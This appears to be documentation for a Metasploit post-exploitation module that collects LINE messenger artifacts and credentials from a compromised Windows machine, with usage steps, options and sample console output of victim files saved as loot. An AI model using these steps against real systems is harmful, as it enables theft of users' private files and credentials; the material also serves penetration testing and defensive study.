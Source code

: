## Module Description

This post-exploitation module gathers artifacts found on LINE related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/line
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/line) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Line's parent folder found
[*] Line's *.png file found
[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\10020\6\animation\24348280.png
[*] Line 24348280.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513054823_default_192.168.56.106_line24348280.png_031858.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\1005\7\16188.png
[*] Line 16188.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513054824_default_192.168.56.106_line16188.png_166694.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\2000000\3\47976.png
[*] Line 47976.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513054824_default_192.168.56.106_line47976.png_270633.png

[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```

### Verbose Output
  ```
msf6 post(windows/gather/line) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Line's parent folder found
[*] Line's *.png file found
[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\10020\6\animation\24348280.png
[*] Line 24348280.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055412_default_192.168.56.106_line24348280.png_472404.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\1005\7\16188.png
[*] Line 16188.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055412_default_192.168.56.106_line16188.png_355604.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\2000000\3\47976.png
[*] Line 47976.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055412_default_192.168.56.106_line47976.png_481503.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\3059\1\765251.png
[*] Line 765251.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055413_default_192.168.56.106_line765251.png_881563.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\3590\1\2872642.png
[*] Line 2872642.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055413_default_192.168.56.106_line2872642.png_628173.png


[-] This artifact does not support any extraction type
[*] PackRat credential sweep Completed
[*] Post module execution completed

```